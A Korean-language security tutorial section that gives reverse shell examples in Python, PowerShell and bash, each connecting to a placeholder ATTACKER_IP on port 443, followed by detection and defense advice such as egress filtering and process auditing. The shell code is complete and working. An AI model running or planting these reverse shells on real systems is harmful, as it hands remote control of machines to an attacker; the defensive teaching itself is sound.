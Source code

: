 #### 리버스쉘 코드 예시

다양한 언어로 리버스쉘을 구현할 수 있으며, 종종 한 줄짜리 명령어로도 가능합니다.

  * **Python 예시**
    ```python
    import socket, subprocess, os

    # 공격자 IP와 포트
    RHOST = "ATTACKER_IP"
    RPORT = 443

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((RHOST, RPORT))

    # 표준 입/출력/에러를 소켓에 복제
    os.dup2(s.fileno(), 0) # stdin
    os.dup2(s.fileno(), 1) # stdout
    os.dup2(s.fileno(), 2) # stderr

    # /bin/sh 실행하여 셸 제공
    p = subprocess.call(["/bin/sh", "-i"])
    ```
  * **PowerShell (Windows) 원라이너 예시**
    ```powershell
    powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('ATTACKER_IP',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
    ```
  * **Bash (Linux) 원라이너 예시**
    ```bash
    bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1
    ```

#### 리버스쉘 탐지 및 방어 전략

  * **탐지 전략**

    1.  **이그레스(Egress) 트래픽 필터링 및 모니터링**: 서버에서 외부로 나가는 아웃바운드 트래픽을 철저히 모니터링합니다. 특히 웹 서버가 비정상적인 IP나 포트로 장시간 TCP 연결을 유지하는 경우 리버스쉘을 의심할 수 있습니다.
    2.  **프로세스 및 커맨드 라인 감사**: 웹 서버 프로세스가 `bash`, `powershell.exe`, `nc`, `/dev/tcp`와 같은 비정상적인 자식 프로세스나 명령어를 실행하는지 지속적으로 감사합니다.
    3.  **호스트 기반 침입 탐지 시스템(HIDS)**: 셸을 생성하고 네트워크 연결을 수립하는 과정에서 발생하는 비정상적인 시스템 콜(System Call) 패턴을 탐지합니다.

  * **방어 전략**

    1.  **엄격한 이그레스 필터링**: 방화벽에서 'Deny All'을 기본 정책으로 설정하고, 업무상 반드시 필요한 IP와 포트로의 아웃바운드 연결만 허용하는 화이트리스트 정책을 적용합니다.
    2.  **애플리케이션 화이트리스팅**: 서버에서 실행될 수 있는 프로그램을 사전에 승인된 목록으로 제한하여 `netcat`과 같은 비인가 프로그램의 실행을 원천 차단합니다.
    3.  **PowerShell 보안 강화**: PowerShell의 실행 정책을 강화하고, `Constrained Language Mode`를 활성화하여 위험한 기능을 제한합니다.
